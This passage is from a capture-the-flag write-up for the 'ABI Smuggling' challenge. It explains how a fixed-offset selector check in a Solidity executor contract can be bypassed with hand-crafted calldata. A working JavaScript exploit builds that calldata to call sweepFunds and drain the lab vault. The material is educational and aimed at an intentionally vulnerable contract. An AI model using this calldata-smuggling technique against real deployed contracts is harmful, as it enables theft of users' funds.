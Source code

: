 ```
```

### 15. ABI Smuggling

This challenge is quite similar to [Ethernaut Challenge #29 Switch](../ethernaut-solutions-part-3/#29-switch), focusing on understanding `calldata` encoding and decoding. Essentially, calldata uses an offset to indicate the data location, followed by the data size and the data itself.

For a detailed explanation, refer to the official Solidity documentation: : https://docs.soliditylang.org/en/v0.8.23/abi-spec.html#use-of-dynamic-types

The `execute()` function in the `AuthorizedExecutor` checks the `4 + 32 * 3` position for the `actionData` selector. However, it's possible to alter the calldata to deceive the code, moving the real `actionData` to a different location.

AuthorizedExecutor.sol:
```sol
    function execute(address target, bytes calldata actionData) external nonReentrant returns (bytes memory) {
        // Read the 4-bytes selector at the beginning of `actionData`
        bytes4 selector;
        uint256 calldataOffset = 4 + 32 * 3; // calldata position where `actionData` begins
        assembly {
            selector := calldataload(calldataOffset)
        }
        console.logBytes4(selector);
        console.logBytes(actionData);

        if (!permissions[getActionId(selector, msg.sender, target)]) {
            revert NotAllowed();
        }

        _beforeFunctionCall(target, actionData);

        return target.functionCall(actionData);
    }
```

We can construct calldata that relocates the genuine `actionData` while maintaining the expected selector `d9caed12` at the `4 + 32 * 3` position. The solution would involve crafting of the calldata structure to align with these requirements.

```js
    it('Execution', async function () {
        // So we can manipulate a calldata that allows the function `execute(address target, bytes calldata actionData)` to have the 
        // `actionData` we need to call `sweepFunds`, while also bypassing the selector check.
        const realPayload = vault.interface.encodeFunctionData("sweepFunds", [recovery.address, token.address]);
        const payload = vault.interface.getSighash("execute")
            + "0".repeat(24) + vault.address.slice(2)    // vault address.
            + "0".repeat(62) + "80"                      // payload position.
            + "0".repeat(64)                             // buffer.
            + "d9caed12" + "0".repeat(56)                // bypass selector check.
            + "0".repeat(62) + "44"                      // payload size.
            + realPayload.slice(2);                      // actual calldata.
        await player.sendTransaction({to: vault.address, data: payload, gasLimit: 500000});
    });
```